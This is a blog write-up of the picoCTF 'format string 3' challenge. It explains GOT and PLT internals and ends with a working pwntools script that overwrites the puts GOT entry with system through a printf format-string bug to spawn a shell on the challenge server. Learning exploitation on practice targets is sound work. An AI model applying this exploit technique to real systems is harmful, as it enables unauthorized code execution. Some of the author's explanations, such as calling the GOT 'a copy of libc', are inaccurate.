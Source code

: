 ```yaml
---
layout: post
title:  Overwriting entries in the Global Offset Table
categories: write-ups
excerpt: "Learning about overwriting GOT entries using the picoCTF format string 3 challenge."
---
```

<p>
<h2>Overwriting entries in the Global Offset Table using a vulnerable printf function</h2>
This write-up builds on what was learned about exploiting printf vulnerabilities in my write-up on the picoCTF <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> challenge. In the format string 3 challenge there is a similar vulnerability, but this time instead of overwriting a variable within the program it will be used to overwrite a pointer to an entry in the Global Offset Table so that it will call a different libc function.
</p>
<h2>format string 3</h2>
<p>When the program is run, it prints a line which leaks the address of the GOT entry for the <b>setvbuf</b> function and then waits for input:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-1.png">
</p>
<p>
After supplying some input, it then prints two lines; one which repeats the input and another which prints <b>/bin/sh</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-2.png">
</p>
<p>
Here is the source code for this function:<br>
{% highlight ruby %}
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
{% endhighlight %}
</p>
<p>
Looking at the source, we can identify two goals. The main objective will be to overwrite the pointer to the <b>puts</b> function with a pointer to the <b>system</b> function so that instead of printing <b>/bin/sh</b>, the program will make a <b>system</b> call to <b>/bin/sh</b> instead, granting us a shell. To accomplish this, we will need to exploit the vulnerable printf function which repeats user input.
</p>
<h2>The Global Offset Table</h2>
<p>My understanding of the GOT is that it is a copy of libc used by a program which is stored in a random memory location at runtime in order to prevent the type of attack we are performing here. But because we have access to the copy of libc being used and the location of <b>setvbuf</b> has been leaked, we are able to calculate offsets and find the memory locations of other functions within libc.<br><br>
Finding the locations of functions and calculating their offsets can all be accomplished using pwntools, but I wanted to know exactly what was going on under the hood, so I took a look at the libc file which was supplied with this challenge. First, I used the <b>readelf</b> function to find the location of <b>setvbuf</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-4.png">
</p>
<p>
Then, I found the location of <b>system</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-5.png">
</p>
<p>
Finally, I found the difference of the two, which is <b>2ac90</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-6.jpg">
</p>
<p>
To test this theory, I ran the program in gdb and set a breakpoint after the <b>setvbuf</b> leak:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-7.png">
</p>
<p>
Then I subtracted the <b>2ac90</b> offset from the leaked address and looked at the memory in that location:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-8.png">
</p>
<p>
Cool! We've found the location of the <b>system</b> call in memory! Now what points to the <b>puts</b> entry we want to replace?
</p>
<h2>The GOT, PLT, and GOT.PLT</h2>
<h3>GOT</h3>
<p>As previously mentioned, the Global Offset Table (GOT) is a copy of libc stored in a random location in memory. The location of these addresses must be found at runtime, which is why the setvbuf leak in this program is so valuable.
</p>
<h3>PLT</h3>
<p>The Procedure Linkage Table (PLT) is where libc functions are referenced locally in this program. In this example, <b>puts</b> is located at <b>0x401080</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/puts2.png">
</p>
<h3>GOT.PLT</h3>
<p>This is the middle-man where the libc functions which are called locally are linked to the GOT. Here we can see the <b>got.plt</b> entry by examining the instructions following the local call. Looking at the memory in this location you can see the GOT address for <b>puts</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-12.png">
</p>
<p>
Now all we need to do is overwrite this entry with the offset we calculated earlier (the address for <b>system</b> is different because this is a different instance from earlier):<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-13.png">
</p>
<p>
And after some bugginess, we have a shell!<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-14.png">
</p>
<p>
Entering an <b>ls</b> command shows the contents of the local directory where I was working:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-15.png">
</p>
<p>
I believe the errors in the above examples are from the breakpoints I set to examine memory. Unfortunately, because of the dynamic locations which are generated every time the program is run and the fact that the payload can not be crafted manually and sent to the program beforehand, a script must be used to complete this challenge. But at least we have a solid grasp of what is going on behind the scenes.
</p>
<h2>Final Exploit</h2>
<p>I won't go over the breakdown of the printf vulnerability because I already covered that in my <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> write-up, but I used those methods to determine that our printf string is in location 38. Using all of the information we have so far, here is the script I used, adapted from Wiebe Willems's script <a href="https://blog.nviso.eu/2024/05/23/format-string-exploitation-a-hands-on-exploration-for-linux/">here</a>:<br>
{% highlight ruby %}
from pwn import *

libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

exe = ELF("./format-string-3") # these 3 lines set up for local execution
context.binary = exe
elf = context.binary = ELF('./format-string-3')

# p = process([exe.path]) # for local execution
p = remote("rhea.picoctf.net", 64162) # for remote execution
        

def main():

    info(p.recvline())              # receives howdy gamers line
    info(p.recvuntil("libc: "))     # receives until setvbuf address
    
    setvbuf_address = p.recvline()  # gets setvbuf address

    setvbuf_value = int(setvbuf_address.split(b"x")[1].strip(),16) # converts input to integer value for calculation

    libc.address = setvbuf_value - libc.symbols['setvbuf'] # calculate libc base address

    payload = fmtstr_payload(38, {elf.got['puts'] : libc.symbols['system']}) # format string payload; overwrites puts with system

    p.sendline(payload)
    p.clean()
    p.interactive() # gives program control back to user

if __name__ == "__main__":
    main()
{% endhighlight %}
</p>
<p>
After running this script we have a shell on the remote server and can just cat the flag.txt file!<br>
(I wasn't able to do this in the picoCTF webshell and had to use a Kali VM)<br><br>
I hope this was helpful. This challenge was a great way to learn about the Global Offset Table and also get some practice with gdb and pwntools. Reverse engineering and binary exploitation are the most fun things I have learned about so far on my cybersecurity journey!
</p>